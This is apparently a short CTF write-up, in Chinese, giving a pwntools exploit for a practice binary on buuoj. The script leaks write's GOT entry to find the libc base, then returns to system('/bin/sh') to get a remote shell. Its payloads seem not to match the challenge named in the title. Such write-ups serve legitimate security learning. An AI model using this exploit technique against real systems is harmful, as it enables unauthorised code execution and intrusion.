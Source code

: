```yaml
---
title: HarekazeCTF2019 baby_rop
tags: [ctf-pwn,exp]
date: 2022-11-16 16:08:00
categories: [ctf-pwn]
excerpt: exp
---
```


**题目**

<https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop>

从给定libc获取获取基址

由于给了libc版本，此exp展示使用指定的libc文件获取偏移的方法

不用给的libc文件的见下一道题，harekaze2019的babyrop2

**Exp**

```python
from pwn import *

# p = process('./pwn')
p = remote('node4.buuoj.cn',28818)
e = ELF('./pwn')

#payload 1
payload1 = '\x00' + '\xff' * 7
p.sendline(payload1)
p.recvuntil("Correct\n")

#payload 2
payload2 = (231 + 4) * b'a' + p32(e.plt['write']) + p32(0x08048825) +p32(1) + p32(e.got['write']) + p32(4)

p.sendline(payload2)

# leak addr
write_got = u32(p.recv(4))
print(hex(write_got))

#payload 3
libc = ELF("./libc-2.23.so")
libc.address =  write_got - libc.sym['write']
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
p.sendline(payload1)
payload3 =  (231 + 4) * b'a' + p32(system) + p32(0xdeadbeef) + p32(binsh)
p.sendline(payload3)

p.interactive()
```

